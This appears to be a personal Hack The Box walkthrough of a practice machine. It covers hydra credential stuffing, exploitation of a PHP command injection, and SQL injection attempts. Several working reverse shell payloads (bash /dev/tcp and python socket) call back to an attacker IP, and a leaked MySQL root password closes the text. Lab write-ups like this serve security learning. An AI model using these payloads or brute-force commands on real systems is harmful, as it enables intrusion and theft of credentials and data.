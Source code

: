 ## Info

Can execute these in bash to set variables, which will be used later on in this script.

    ATTACKER=10.10.14.57
    VICTIM=10.10.11.104

## Recon

    bash ../../scripts/discovery/first-scan.sh $VICTIM > recon.txt

Looks like port 22 and 80 are open.

### Port 80

There's a login page, you can `POST http://10.10.11.104/login.php username=asdf&password=ASDF`.

Probably try cred stuffing?

#### Subdir scan

    bash ../../scripts/discovery/subdirectory-scan.sh $VICTIM

#### Cred stuffing

    hydra -l admin -P ~/Git/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $VICTIM -V http-form-post '/login.php:username=^USER^&password=^PASS^:S=Location' -t 64

    hydra -l m4lwhere -P ~/Git/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $VICTIM -V http-form-post '/login.php:username=^USER^&password=^PASS^:S=Location' -t 64


Apparently it worked. `admin:asdfasdf`. Wow! (Note: Password seems to change on box reboot.)

## Next steps

We have access to the admin interface. Looks like there's a few other users, a way to upload files, and a way to view who downloaded files.

### Downloaded PHP

Some more goodies exist in the code, like hardcoded secrets, but I don't care enough to review them. Command injection may be enough.

-   .`/downloaded-files/siteBackup/logs.php` line 19, command injection
    -   ```php
        $output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
        ```

This is all we need to get a shell.

## Reverse shell via command injection

Run this bash command to generate a payload.

This payload is to be sent via HTTP POST into the 'delim' parameter, at this page: `/file_logs.php`

    echo "comma; bash -i >& /dev/tcp/$ATTACKER/6969 0>&1"

e.g:

    comma; bash -i >& /dev/tcp/10.10.14.57/6969 0>&1

Then, run this in JavaScript to modify the form (change IP if needed):

    $('option').value = "comma && bash -i >& /dev/tcp/10.10.14.57/6969 0>&1"
    $('option').innerHTML = "payload ;)"

Then, run this on the attacker machine to listen for connections:

    nc -lvp 6969

And submit the form.

And the reverse shell doesn't work. Fuck.

Does the command injection work at all?

Try:

    $('option').value = "comma && sleep 20"
    $('option').innerHTML = "payload ;)"

Sleep works... So the command injection works. Perhaps we just can't make a connection back to the attacker.

## SQLMap

Log in as admin, and get your PHPSESSID cookie.

    console.log(document.cookie)
    PHPSESSID=qv2nlssejob21t9uq9jq67413c

Then run:

    PHPSESSID=whatever
    sqlmap http://$VICTIM/files.php --cookie="PHPSESSID=$PHPSESSID" --forms --method=POST

Yay, nothing happened ;_;

Let's try `accounts.php`...

    sqlmap http://$VICTIM/accounts.php --cookie="PHPSESSID=$PHPSESSID" --forms --method=POST

Nothing either.

## $fileName not parameterized

If I upload to `/files.php`, and the name of the file is an SQL injection payload, I may be able to cause SQLi.

Well, uploading `' or 1=1;--` causes an error.

This is the raw request sent to the server (looks weird due to it being a file upload):

    -----------------------------42444973397781975353726677533
    Content-Disposition: form-data; name="userData"; filename="' or 1=1;--"
    Content-Type: application/octet-stream

    please upload me 😔
    -----------------------------42444973397781975353726677533--


Let's try to make a better payload.

We control `$fileName` in this code:

```php
$sql = "INSERT INTO files(name, size, data, user) VALUES('{$fileName}', '{$fileSize}', '{$fileData}', '{$_SESSION['user']}')";
```

So we could spoof records with a payload thusly:

    filename69', '69', 'good content', 'admin');--

Doesn't work.

## SQLMap again

https://www.liquidmatrix.org/blog/sql-injection-using-sqlmap-multipartform-data-encoding/

Apparently we're supposed to use a file containing POST data as a template.

    sqlmap --cookie="PHPSESSID=$PHPSESSID" -r payloads/sqlmap-request.txt --method=POST -p "userData"

Still not working.

Fuck it, time to cheat, hooray!

## cheaty cheaty

<https://medium.com/acm-juit/previse-htb-writeup-a3d0acecb937>

Apparently I'm supposed to use a different method of getting reverse shell.

### reverse shell part 2

Attacker runs:

    nc -lvp 6969

Victim (on <http://10.10.11.104/file_logs.php>):

    $('option').value = `delim=comma;export RHOST="10.10.14.57";export RPORT=6969;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`
    $('option').innerHTML = "payload ;)"

It works, I got shell! I should keep a list of different reverse shell payloads since the bash one doesn't always work.

## in da shell

Looks like there's a user called m4lwhere.

Also, we can now connect to the MySQL database. Look at `config.php` for creds.

    mysql -u root -p'mySQL_p@ssw0rd!:)'
    show tables;